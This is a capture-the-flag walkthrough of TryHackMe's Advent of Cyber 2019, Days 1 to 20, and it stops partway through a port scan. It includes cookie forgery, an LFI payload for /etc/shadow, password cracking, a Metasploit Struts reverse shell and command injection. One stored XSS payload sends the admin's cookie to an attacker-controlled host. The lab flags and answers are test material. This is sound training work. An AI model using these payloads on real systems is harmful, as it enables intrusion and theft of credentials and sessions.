> # Advent of Cyber 1 [2019]

# Summary

## Task 6 - [Day 1] Inventory Management
1. What is the name of the cookie used for authentication?<br>
    Register then Login to website, open DevTool to view cookie.<br>
    <br>
    **Answer:** authid

1. If you decode the cookie, what is the value of the fixed part of the cookie?
    ```sh
    $ echo -n "YWRtaW52NGVyOWxsMSFzcw==" | base64 -d
    adminv4er9ll1!ss
    ```
    If we create another username, it also have the same string behind.
    ```sh
    $ echo -n "aGFoYXY0ZXI5bGwxIXNz" | base64 -d 
    hahav4er9ll1!ss
    ```
    The fixed part is v4er9ll1!ss.
    **Answer:** v4er9ll1!ss

1. After accessing his account, what did the user mcinventory request?<br>
    Change cookie value to mcinventoryv4er9ll1!ss, then encode it with base64.
    ```sh
    $ echo -n 'mcinventoryv4er9ll1!ss' | base64 
    bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==
    ```
    <br>
    Reload this page with new cookie.<br>
    <br>
    **Answer:** firewall

## Task 7 - [Day 2] Arctic Forum
1. Task 7  [Day 2] Arctic Forum<br>
    ```sh
    $ dirb http://10.10.97.191:3000

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Tue Jul 19 23:15:23 2022
    URL_BASE: http://10.10.97.191:3000/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://10.10.97.191:3000/ ----
    + http://10.10.97.191:3000/admin (CODE:302|SIZE:27)                            
    + http://10.10.97.191:3000/Admin (CODE:302|SIZE:27)                            
    + http://10.10.97.191:3000/ADMIN (CODE:302|SIZE:27)                            
    + http://10.10.97.191:3000/assets (CODE:301|SIZE:179)                          
    + http://10.10.97.191:3000/css (CODE:301|SIZE:173)                             
    + http://10.10.97.191:3000/home (CODE:302|SIZE:28)                              
    + http://10.10.97.191:3000/Home (CODE:302|SIZE:28)                             
    + http://10.10.97.191:3000/js (CODE:301|SIZE:171)          
    + http://10.10.97.191:3000/login (CODE:200|SIZE:1713)                          
    + http://10.10.97.191:3000/Login (CODE:200|SIZE:1713)                          
    + http://10.10.97.191:3000/logout (CODE:302|SIZE:28)                           
    + http://10.10.97.191:3000/sysadmin (CODE:200|SIZE:1733)                       
    + http://10.10.97.191:3000/SysAdmin (CODE:200|SIZE:1733)                       
                                                                                
    -----------------
    END_TIME: Tue Jul 19 23:31:20 2022
    DOWNLOADED: 4612 - FOUND: 13
    ```
    We detected that /sysadmin return status code 200 which indicates that the server retrieved the page successfully.<br>
    **Answer:** /sysadmin

1. What is the password you found?<br>
    Navigate to http://10.10.233.174:3000/sysadmin, we see the login form for admin account.<br>
    <br>
    Based on the supporting material, I check source code of this page and discorver a comment.<br>
    <br>
    So I search on [Github](https://github.com/) with the hightlighted keyword and found a repo.<br>
    <br>
    Open this repo, I found the default credential for the admin page.<br>
    <br>
    Try login with this credential, and successfully login as admin.<br>
    <br>
    **Answer:** defaultpass

1. What do you have to take to the 'partay'<br>
    At the bottom, it has the note for preparing for Christmas and what we have to do for the partay.<br>
    <br>
    **Answer:** Eggnog

## Task 8 - [Day 3] Evil Elf
1. Whats the destination IP on packet number 998?<br>
    Press Ctrl+G for jumping to packet No. 998<br>
    <br>
    **Answer:** 63.32.89.195

1. What item is on the Christmas list?<br>
    Based on the supporting material, I filter with `telnet` protocol for finding the commad betwen two hosts and found threes packet related to `telnet`.<br>
    <br>
    Follow TCP Stream, we'll see all the commands between two hosts.<br>
    <br>
    At the first line, we found the item on the Christmas list is `ps4'.<br>
    **Answer:** ps4

1. Crack buddy's password!<br>
    The last line is buddy's password, so I use `hashcat` for retrieving the raw password.<br>
    The same as document, it also uses SHA512 for hashing password. So the command is similar to document.<br>
    `hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt`<br>
    The buddy's password is **`rainbow`**
    <br>
    **Answer:** rainbow

## Task 9 - [Day 4] Training
1. How many visible files are there in the home directory(excluding ./ and ../)?<br>
    `ls` then count number of file using `wc`.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ ls | wc -l
    8
    ```
    **Answer:** 8

1. What is the content of file5?<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ cat file5
    recipes
    ```
    **Answer:** recipes

1. Which file contains the string ‘password’?<br>
    Use `grep` to find string in files.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ grep  "password" *
    file6:passwordHpKRQfdxzZocwg5O0RsiyLSVQon72CjFmsV4ZLGjxI8tXYo1NhLsEply
    ```
    **Answer:** file6

1. What is the IP address in a file in the home folder?<br>
    Use Regular Expression to extract IP address from file with grep.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' *
    file2:10.0.0.05eXWx4auBc8Swra4aPvIoBre+PRsVgu9GVbGwD33X8bd7TWwlZxzSVYa
    ```
    **Answer:** 10.0.0.05

1. How many users can log into the machine?<br>
    List folder in /home then count them.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ ls /home/ | wc -l
    2
    ```
    **Answer:** 2

1. How many users can log into the machine?<br>
    Users can log into the machine are users listed in /etc/passwd and have Shell Location. In this case, the Shell Location is `/bin/bash`, so I `cat /etc/pass` then `grep '/bin/bash'`.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ cat /etc/passwd | grep '/bin/bash'
    root:x:0:0:root:/root:/bin/bash
    ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
    mcsysadmin:x:1001:1001::/home/mcsysadmin:/bin/bash
    ```
    **Answer:** 3

1. What is the sha1 hash of file8?<br>
    Use `sha1sum` for calculating the hash value of file8.<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ sha1sum file8
    fa67ee594358d83becdd2cb6c466b25320fd2835  file8
    ```
    **Answer:** fa67ee594358d83becdd2cb6c466b25320fd2835

1. What is mcsysadmin’s password hash?<br>
    If we directly read /etc/shadow, it'll alert `Permission denied`, so we must find another way to read it.<br>
    Based on the document, users would usually leave files lying around. Common files include credentials and backup files (with the extension .bak).<br>
    So I use `find` command to file all name had ".bak" extension that mcsysadmin could read.<br>
    `find / -name *.bak`
    I found a file in /var folder named `shadow.bak`<br>
    <br>
    It may be a backup of `/etc/shadow`, so I cat this file and the result:<br>
    ```sh
    [mcsysadmin@ip-10-10-0-224 ~]$ cat /var/shadow.bak 
    root:*LOCK*:14600::::::
    bin:*:17919:0:99999:7:::
    daemon:*:17919:0:99999:7:::
    adm:*:17919:0:99999:7:::
    lp:*:17919:0:99999:7:::
    sync:*:17919:0:99999:7:::
    shutdown:*:17919:0:99999:7:::
    halt:*:17919:0:99999:7:::
    mail:*:17919:0:99999:7:::
    operator:*:17919:0:99999:7:::
    games:*:17919:0:99999:7:::
    ftp:*:17919:0:99999:7:::
    nobody:*:17919:0:99999:7:::
    systemd-network:!!:18218::::::
    dbus:!!:18218::::::
    rpc:!!:18218:0:99999:7:::
    libstoragemgmt:!!:18218::::::
    sshd:!!:18218::::::
    rpcuser:!!:18218::::::
    nfsnobody:!!:18218::::::
    ec2-instance-connect:!!:18218::::::
    postfix:!!:18218::::::
    chrony:!!:18218::::::
    tcpdump:!!:18218::::::
    ec2-user:!!:18234:0:99999:7:::
    mcsysadmin:$6$jbosYsU/$qOYToX/hnKGjT0EscuUIiIqF8GHgokHdy/Rg/DaB.RgkrbeBXPdzpHdMLI6cQJLdFlS4gkBMzilDBYcQvu2ro/:18234:0:99999:7:::
    ```
    The last fine contains information about mcsysadmin's password hash.<br>
    **Answer:** $6$jbosYsU/$qOYToX/hnKGjT0EscuUIiIqF8GHgokHdy/Rg/DaB.RgkrbeBXPdzpHdMLI6cQJLdFlS4gkBMzilDBYcQvu2ro/

## Task 10 - [Day 5] Ho-Ho-Hosint
1. What is Lola's date of birth? Format: Month Date, Year(e.g November 12, 2019)<br>
    Task file is an image, so I use `exiftool` to view metadata of it, and this is the result.<br>
    ```sh
    $ exiftool thegrinch.jpg 
    ExifTool Version Number         : 12.40
    File Name                       : thegrinch.jpg
    Directory                       : .
    File Size                       : 69 KiB
    File Modification Date/Time     : 2022:07:20 14:05:57+07:00
    File Access Date/Time           : 2022:07:20 14:07:02+07:00
    File Inode Change Date/Time     : 2022:07:20 14:06:00+07:00
    File Permissions                : -rw-rw-r--
    File Type                       : JPEG
    File Type Extension             : jpg
    MIME Type                       : image/jpeg
    JFIF Version                    : 1.01
    Resolution Unit                 : None
    X Resolution                    : 1
    Y Resolution                    : 1
    XMP Toolkit                     : Image::ExifTool 10.10
    Creator                         : JLolax1
    Image Width                     : 642
    Image Height                    : 429
    Encoding Process                : Progressive DCT, Huffman coding
    Bits Per Sample                 : 8
    Color Components                : 3
    Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
    Image Size                      : 642x429
    Megapixels                      : 0.275
    ```
    We found the Creator is `JLolax1`, it may be a username of a social media, let's check with [https://www.namecheckr.com/](https://www.namecheckr.com/) from [https://osintframework.com/](https://osintframework.com/).<br>
    <br>
    Lets check Twitter first, we found a profile.<br>
    <br>
    Based on her biography, we can confirmed that she is the person we need to find.<br>
    **Answer:** December 29, 1900

1. What is Lola's current occupation?<br>
    From her biography.<br>
    **Answer:** Santa's Helpers

1. What phone does Lola make?<br>
    She has a tweet talk about this.<br>
    <br>
    **Answer:** iPhone X

1. What date did Lola first start her photography? Format: dd/mm/yyyy<br>
    In biography, she also has Wordpress page, looks like this is where she posted the picture she took.<br>
    <br>
    So I will use Wayback Machine to find the time this page is created.<br>
    This page has first event in 2019.<br>
    <br>
    So I see the details in 2019, the first event occur on Oct 23, 2019.
    <br>
    On this page, she told that started as a freelncer five years ago today.<br>
    <br>
    So we have the answer.<br>
    **Answer:** 23/10/2014

1. What famous woman does Lola have on her web page?<br>
    I find on every event on Wayback Machine and see that image always appear.<br>
    <br>
    So I use Google Image to find information for this image, on the first page I found the result.<br>
    <br>
    **Answer:** Ada Lovelace

## Task 11 - [Day 6] Data Elf-iltration
1. What data was exfiltrated via DNS?<br>
    Filter DNS packet in Wireshark, we see a strange request DNS with prefix is a hex string.<br>
    <br>
    Copy this hex string convert it to raw string using `xxd`.<br>
    ```sh
    $ echo -n "43616e64792043616e652053657269616c204e756d6265722038343931" | xxd -r -p
    Candy Cane Serial Number 8491
    ```
    **Answer:** Candy Cane Serial Number 8491

1. What did Little Timmy want to be for Christmas?<br>
    Filter http packet, we detected that IP `192.168.1.107` download two files are `christmas.zip` and `TryHackMe.jpg` but their source are not from tryhackme.com.<br>
    Export two files for further forensics.<br>
    Use `fcrackzip` to crack zip file.<br>
    ```sh
    $ fcrackzip -b -m 2 -D -p /usr/share/wordlists/rockyou.txt -v  christmaslists.zip
    found file 'christmaslistdan.tx', (size cp/uc     91/    79, flags 9, chk 9a34)
    found file 'christmaslistdark.txt', (size cp/uc     91/    82, flags 9, chk 9a4d)
    found file 'christmaslistskidyandashu.txt', (size cp/uc    108/   116, flags 9, chk 9a74)
    found file 'christmaslisttimmy.txt', (size cp/uc    105/   101, flags 9, chk 9a11)
    possible pw found: december ()
    ```
    This tool told the password is `december`.<br>
    Unzip this file with `december`.<br>
    ```sh
    $ unzip christmaslists.zip 
    Archive:  christmaslists.zip
    [christmaslists.zip] christmaslistdan.tx password: 
      extracting: christmaslistdan.tx     
        inflating: christmaslistdark.txt   
        inflating: christmaslistskidyandashu.txt  
        inflating: christmaslisttimmy.txt
    ```
    This task require information about Little Timmy, so I read christmaslisttimmy.txt<br>
    ```sh
    $ cat christmaslisttimmy.txt 
    Dear Santa,
    For Christmas I would like to be a PenTester! Not the Bic kind!
    Thank you,
    Little Timmy.
    ```
    **Answer:** PenTester

1. What was hidden within the file?<br>
    Based on the document, I use `steghide` to extract hidden data in TryHackMe.jpg, it requires a passphrase so I try with `PenTester` found from previous task but failed.<br>
    ```sh
    $ steghide extract -sf TryHackMe.jpg 
    Enter passphrase: 
    steghide: could not extract any data with that passphrase!
    ```
    So we must find the exact passphrase to unhide the hidden data.<br>
    But when I try again without the passphrase, it successfully extract the hidden data. (Ooopssss =DDD)<br>
    ```sh
    $ steghide extract -sf TryHackMe.jpg 
    Enter passphrase: 
    wrote extracted data to "christmasmonster.txt".
    ```
    So cat this file and get flag.<br>
    <br>
    **Answer:** RFC527

## Task 12 - [Day 7] Skilling Up
1. How many TCP ports under 1000 are open?<br>
    ```sh
    $ sudo nmap -sV -A -O -p1-1000 10.10.122.29 
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-21 11:58 +07
    Nmap scan report for 10.10.122.29
    Host is up (0.21s latency).
    Not shown: 997 closed ports
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 e8:70:17:25:29:7c:c0:b7:ab:0d:eb:97:4d:4b:03:75 (RSA)
    |   256 08:6f:90:21:d4:bb:4b:76:54:ae:d2:0f:61:51:03:bb (ECDSA)
    |_  256 1e:e0:34:66:2b:30:10:e6:30:92:94:14:5e:52:ce:93 (ED25519)
    111/tcp open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          37593/tcp6  status
    |   100024  1          47192/udp6  status
    |   100024  1          50482/udp   status
    |_  100024  1          57007/tcp   status
    999/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.8)
    |_http-server-header: SimpleHTTP/0.6 Python/3.6.8
    |_http-title: Directory listing for /
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=7/21%OT=22%CT=1%CU=32733%PV=Y%DS=5%DC=T%G=Y%TM=62D8DD1
    OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
    OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
    OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
    OS:(R=Y%DF=Y%T=FF%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=A
    OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
    OS:=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F
    OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
    OS:T=FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD
    OS:=S)

    Network Distance: 5 hops

    TRACEROUTE (using port 110/tcp)
    HOP RTT       ADDRESS
    1   91.12 ms  10.17.0.1
    2   ... 4
    5   213.72 ms 10.10.122.29

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 41.75 seconds
    ```
    **Answer:** 3 (22, 111, 999)

1. What is the name of the OS of the host?<br>
    From `OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS`<br>
    **Answer:** Linux

1. What version of SSH is running?<br>
    **Answer:** 7.4

1. What is the name of the file that is accessible on the server you found running?<br>
    Navigate to http://10.10.122.29:999 to view website.<br>
    <br>
    **Answer:** interesting.file

## Task 13 - [Day 8] SUID Shenanigans
1. What port is SSH running on?<br>
    ```
    $ nmap -sV 10.10.169.232 -p-
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-22 20:28 +07
    Stats: 0:09:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 63.85% done; ETC: 20:43 (0:05:39 remaining)
    Nmap scan report for 10.10.169.232
    Host is up (0.21s latency).
    Not shown: 65534 closed ports
    PORT      STATE SERVICE VERSION
    65534/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1060.63 seconds
    ```
    **Answer:** 65534

1. Find and run a file as igor. Read the file /home/igor/flag1.txt<br>
    We need to scan the whole file system to find all files with user igor and the SUID bit set.<br>
    ```
    $ find / -user igor -perm -4000 -exec ls -ldb {} \;
    ```
    <br>
    Navigate to `/home/igor`, find and cat flag1.txt.<br>
    ```
    $ cd /home/igor/ && find flag1.txt -exec cat flag1.txt \;
    THM{d3f0708bdd9accda7f937d013eaf2cd8}
    ```
    **Answer:** THM{d3f0708bdd9accda7f937d013eaf2cd8}

1. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?<br>
    Change command in previous question from `igor` to `root`.<br>
    ```
    $ find / -user root -perm -4000 -print 2>/dev/null 
    /bin/ping
    /bin/umount
    /bin/ping6
    /bin/su
    /bin/fusermount
    /bin/mount
    /snap/core/7396/bin/mount
    /snap/core/7396/bin/ping
    /snap/core/7396/bin/ping6
    /snap/core/7396/bin/su
    /snap/core/7396/bin/umount
    /snap/core/7396/usr/bin/chfn
    /snap/core/7396/usr/bin/chsh
    /snap/core/7396/usr/bin/gpasswd
    /snap/core/7396/usr/bin/newgrp
    /snap/core/7396/usr/bin/passwd
    /snap/core/7396/usr/bin/sudo
    /snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /snap/core/7396/usr/lib/openssh/ssh-keysign
    /snap/core/7396/usr/lib/snapd/snap-confine
    /snap/core/7396/usr/sbin/pppd
    /usr/bin/system-control
    /usr/bin/newuidmap
    /usr/bin/passwd
    /usr/bin/newgrp
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/pkexec
    /usr/bin/gpasswd
    /usr/bin/newgidmap
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    ```
    I found a interesting binary file `system-control`, it's not the default binary file in Linux system, so I try to execute it.<br>
    It requires a command as input, when I enter `id`, it tell me that binary run as `root` (id=0)<br>
    <br>
    As the result, we can `cat flag2.txt` by this binary file.<br>
    <br>
    **Answer:** THM{8c8211826239d849fa8d6df03749c3a2}

## Task 14 - [Day 9] Requests
1. What is the value of the flag?<br>
    Python code for solving this task.<br>
    ```python
    import requests

    url = 'http://10.10.169.100:3000'

    flag = ''
    value, next_path = '', ''

    while value != 'end' and next_path != 'end':
        r = requests.get('%s/%s' % (url, next_path))
        j = r.json()
        value, next_path = j['value'], j['next']
        flag += value

    print(flag[:-3])
    ```
    **Answer:** sCrIPtKiDd

## Task 15 - [Day 10] Metasploit-a-ho-ho-ho
1. Compromise the web server using Metasploit. What is flag1?<br>
    We need to scan the target first. It opens port 22, 80 and 111. But this task require us for compromissing the web server, so we only notice port 80.<br>
    ```
    $ nmap 10.10.129.237
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-23 10:04 +07
    Nmap scan report for 10.10.129.237
    Host is up (0.21s latency).
    Not shown: 997 closed ports
    PORT    STATE SERVICE
    22/tcp  open  ssh
    80/tcp  open  http
    111/tcp open  rpcbind

    Nmap done: 1 IP address (1 host up) scanned in 14.44 seconds
    ```
    Mavigate to web broswer, 
    <br>
    Open DevTool and in Debugger tab, we knew that the target system use Strust as web application framework.<br>
    <br>
    Research how to use Metasploit exploit Strust to get reverse shell.<br>
    <br>
    I found a CVE has URI the same as UIR in the target.<br>
    Research how to use it in Metasploit from this [link](https://www.rapid7.com/db/modules/exploit/multi/http/struts2_content_type_ognl/)<br>
    Go to metasploit and `use exploit/multi/http/struts2_content_type_ognl`, then set info of the target.<br>
    <br>
    You must change the PAYLOAD to `linux/x86/meterpreter/reverse_tcp`, then `run` and I receive a connect from the target.<br>
    <br>
    Get into shell and get flag1.<br>
    <br>
    **Answer:** THM{3ad96bb13ec963a5ca4cb99302b37e12}

1. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?<br>
    List file in `/home/santa` and read it.<br>
    <br>
    **Answer:** 

    > Login as santa to complete following tasks because we are in docker container as described in document.  
    <br>

1. Who is on line 148 of the naughty list?<br>
    Specify displayed line by `sed` command.<br>
    ```
    [santa@ip-10-10-129-237 ~]$ cat naughty_list.txt | sed -n 148p 
    Melisa Vanhoose
    ```
    **Answer:** Melisa Vanhoose

1. Who is on line 52 of the nice list?<br>
    Similar to previous task.<br>
    ```
    [santa@ip-10-10-129-237 ~]$ cat nice_list.txt | sed -n 52p
    Lindsey Gaffney
    ```
    **Answer:** Lindsey Gaffney

## Task 16 - [Day 11] Elf Applications
1. What is the password inside the creds.txt file?<br>
    Scan the target first for finding which services are running.<br>
    ```
    $ nmap 10.10.115.105
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-23 16:47 +07
    Nmap scan report for 10.10.115.105
    Host is up (0.21s latency).
    Not shown: 995 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    111/tcp  open  rpcbind
    2049/tcp open  nfs
    3306/tcp open  mysql

    Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
    ```
    Based on the document, I'll exploit ftp service first by anonymous user.<br>
    <br>
    List file and I found `file.txt`, get and then open it.<br>
    <br>
    ```
    $ cat file.txt 
    remember to wipe mysql:
    root
    ff912ABD*
    ```
    It seem to be credential for login mysql.<br>
    But we need to find cred.txt, I didn't file anything else at here, so I change to exploit NFS service.<br>
    ```sh                                
    ┌──(kali㉿kali)-[~/Desktop]
    └─$ showmount -e 10.10.115.105
    Export list for 10.10.115.105:
    /opt/files *
    ```
    Successfully mount NFS to my host.<br>
    <br>
    Read `creds.txt`<br>
    <br>
    **Answer:** 

1. What is the name of the file running on port 21?<br>
    From previous exploit.<br>
    **Answer:** file.txt

1. What is the password after enumerating the database?<br>
    Login to mysql with credential in `file.txt`.<br>
    <br>
    Now, enumarate the database in the target's mysql.<br>
    <br>
    **Answer:** bestpassword

## Task 17 - [Day 12] Elfcryption
1. What is the md5 hashsum of the encrypted note1 file?<br>
    ```
    $ md5sum note1.txt.gpg 
    24cf615e2a4f42718f2ff36b35614f8f  note1.txt.gpg
    ```

1. Where was elf Bob told to meet Alice?<br>
    We notice that `note.txt.gpg` end with `.gpd` extension, so we need to find secret key to decrypt it.<br>
    I use `john` fro crack the passpharse but not found the key. The hint of this task told that the secret key is `25daysofchristmas`.<br>
    ```
    $ gpg -d note1.txt.gpg 
    gpg: AES.CFB encrypted data
    gpg: encrypted with 1 passphrase
    I will meet you outside Santa's Grotto at 5pm!
    ```
    **Answer:** Santa's Grotto

1. Decrypt note2 and obtain the flag!
    From hint, the passphrase if `hello`.<br>
    ```
    $ openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out note2_encrypted
    The command rsautl was deprecated in version 3.0. Use 'pkeyutl' instead.
    Enter pass phrase for private.key:
    $ cat note2_encrypted
    THM{ed9ccb6802c5d0f905ea747a310bba23}
    ```
    **Answer:** THM{ed9ccb6802c5d0f905ea747a310bba23}

## Task 18 - [Day 13] Accumulate
1. A web server is running on the target. What is the hidden 
directory which the website lives on?<br>
    Use `dirb` command to find hidden directory.<br>
    <br>
    We found a hidden directory `/retro` with status 301 (Moved Permantly).<br>
    **Answer:** /retro

1. Gain initial access and read the contents of user.txt<br>
    Navigate to hidden directory and use Wappalyzer, I know that the target use Wordpress version 5.2.1 as web application framework and Server is IIS.<br>
    <br>
    Research how to exploit the target.<br>
    All posts are made by Wade, and in post "Ready Player One" has a comment of Wade with an interested string look like password.<br>
    <br>
    Because the target running on Windows, so I use Rimmina RDP to it with credential is Wade:parzival.<br>
    <br>
    And successfully login to the target. `user.txt` is on the Desktop, open then get the flag.<br>
    <br>
    **Answer:** THM{HACK_PLAYER_ONE}

1. [Optional] Elevate privileges and read the content of root.txt<br>
    If we want to access Administrator folder, we must have the password.<br>
    <br>
    On desktop, they give a file `hhupd`, research on Google I found this file can help us for privilege escalation.<br>
    Follow this [video](https://www.youtube.com/watch?v=0ULr7oh6TDI), I successfully become `NT AUTHORITY\SYSTEM`
    <br>
    Read root.txt<br>
    <br>
    **Answer:** THM{COIN_OPERATED_EXPLOITATION}

    ***Summary:***<br>
    <br>

## Task 19 - [Day 14] Unknown Storage
1. What is the name of the file you found?<br>
    Access s3 bucket with given name.<br>
    <br>
    **Answer:** employee_names.txt

1. What is in the file?<br>
    Add filename behind URL.<br>
    <br>
    **Answer:** mcchef

## Task 20 - [Day 15] LFI
1. What is Charlie going to book a holiday to?<br>
    Scan the target first.<br>
    ```
    $ nmap 10.10.6.252
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-24 20:18 +07
    Nmap scan report for 10.10.6.252
    Host is up (0.21s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds
    ```
    Navigate to website, the answer is in note3.<br>
    <br>
    **Answer:** Hawaii

1. Read /etc/shadow and crack Charlies password.<br>
    After trying many times with BUrp Suite, the payload for read `/etc/shadow` is `..%2f..%2f..%2fetc%2fshadow` (argument for    getNote function).<br>
    <br>
    Send it to the target and receive response.<br>
    <br>
    The charlie's password hash is `$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::`
    Crack with `hashcat`, mode is 1800 (sha512crypt).<br>
    ```
    $ hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
    ```
    <br>
    **Answer:** password1

1. What is flag1.txt?<br>
    SSH with credential charlie:password1 then read `flag1.txt`.<br>
    <br>
    **Answer:** THM{4ea2adf842713ad3ce0c1f05ef12256d}

## Task 21 - [Day 16] File Confusion
1. How many files did you extract(excluding all the .zip files)<br>
    The solution code for this question is in [day16/q1.py](day16/q1.py).
    ```
    $ python3 q1.py <folder contains zip> <folder for extracting>
    Extract done!
    $ ls extract/extract/ | wc -l
    50
    ```
    **Answer:** 50

1. How many files contain Version: 1.1 in their metadata?<br>
    The solution code for this question is in [day16/q2.py](day16/q2.py).<br>
    ```
    $ python3 q2 <folder contains txt file>
    File(s) containes string Version: 1.1:
    FH3t.txt
    4jGg.txt
    u63T.txt
    Total: 3
    ```
    **Answer:** 3
    
1. Which file contains the password?<br>
    Use `grep` with argument `-r` for reading all files in current folder with string `password`.<br>
    ```
    $ grep -r password
    dL6w.txt:password is 'scriptingpass'
    ```
    **Answer:** dL6w.txt

## Task 22 - [Day 17] Hydra-ha-ha-haa
1. Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)<br>
    Scan the target first.<br>
    ```
    $ nmap 10.10.107.255
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-25 09:02 +07
    Nmap scan report for 10.10.107.255
    Host is up (0.21s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 5.31 seconds
    ```
    <br>
    Login to target with molly:sunshine.<br>
    <br>
    **Answer:** THM{2673a7dd116de68e85c48ec0b1f2612e}

1. Use Hydra to bruteforce molly's SSH password. What is flag 2?<br>
    <br>
    SSH to target with molly:butterfly.<br>
    <br>
    **Answer:** THM{c8eeb0468febbadea859baeb33b2541b}

## Task 23 - [Day 18] ELF JS
1. What is the admin's authid cookie value?<br>
    Create an account then login to website.<br>
    <br>
    They annouce that admin will be comming here from time to time, our goal is perform XSS attack (Stored XSS) to steal admin's cookie.<br>
    Try with `<script>console.log(document.location)</script>`, the target can compromis with XSS.<br>
    <br>
    Create a `SimpleHTTPServer` for listening requests.<br>
    ```
    $ python -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    ```
    Now research for XSS payload to steal cookie of others.<br>
    Use payload.
    ```JS
    <script>window.location='http://<YOUR_IP>/?cookie='+document.cookie</script>
    ```
    Result.<br>
    The first authid is mine, below is of admin.<br>
    <br>
    **Answer:** 2564799a4e6689972f6d9e1c7b406f87065cbf65

## Task 24 - [Day 19] Commands
1. What are the contents of the user.txt file?<br>
    Initerface of website, I don't find any informative thing in source web.<br>
    <br>
    Based on the description of this task, he found something in `/api/cmd`, but if we directly access it on the webpage, nothing is return.<br>
    I added `ls` command behind this endpoint and it return files and folders in `/` folder.<br>
    <br>
    Conduct exploit Command Injection.<br>
    The final payload is `cat%20%2fhome%2fbestadmin%2fuser.txt`.<br>
    <br>
    **Answer:** 5W7WkjxBWwhe3RNsWJ3Q

## Task 25 - [Day 20] Cronjob Privilege Escalation
1. What port is SSH running on?<br>
    Scan the target with `nmap` first.<br>
    ```
    $ nmap -sV 10.10.244.5
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 21:34 +07
    Nmap scan report for 10.10.244.5
    Host is up (0.25s latency).
    Not shown: 999 closed ports
